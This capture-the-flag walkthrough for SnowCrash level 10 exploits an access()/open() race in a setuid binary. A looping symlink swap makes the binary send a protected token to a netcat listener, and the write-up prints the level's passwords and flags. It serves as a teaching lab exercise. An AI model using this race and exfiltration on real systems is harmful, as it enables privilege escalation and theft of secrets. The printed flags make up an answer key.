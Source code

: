 # Level 10

## Vulnerability
Privilege escalation - symlink attack

Binary ```level10``` calls access then open

## Context
We find a binary and a token.
```
level10@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
When we run the binary it tells us it tells us it sends given file to host.
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

## Solution

Can we find a host port hint in the binary?
```
level10@SnowCrash:~$ strings level10
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
...
```
In a second terminal lets use Netcat to listen on this port.
```
level10@SnowCrash:~$ nc 6969 -l
```
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
```
level10@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level10@SnowCrash:~$ ./level10 /dev/shm/hi {VM_IP}
Connecting to {VM_IP}:6969 .. Connected!
Sending file .. wrote file!
```
To access the token, we find a potential weakness in the binary's use of ```access```.
```
level10@SnowCrash:~$ nm -u level10
...
         U access@@GLIBC_2.0
...
```
```man 2 access``` briefly describes [the vulnerability](https://stackoverflow.com/questions/7925177/access-security-hole)

> Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because  the  user  might
       exploit  the  short time interval between checking and opening the file to manipulate it.

So lets create an infinite loop which switches a symbolic link between the binary and the token.
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/symlink; ln -fs ~/token /tmp/symlink; done
```
Then run the binary on the symbolic link.
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink {VM_IP}; done
```
Then when we listen, sometimes its garbage, but sometimes we read the token!
```
level10@SnowCrash:~$ nc 6969 -l
woupa2yuojeeaaed06riuj63c
```
Great!
```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
Bonus: for some reason this token is also the password for user flag11, bypassing level11.
```
level10@SnowCrash:~$ su flag11
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
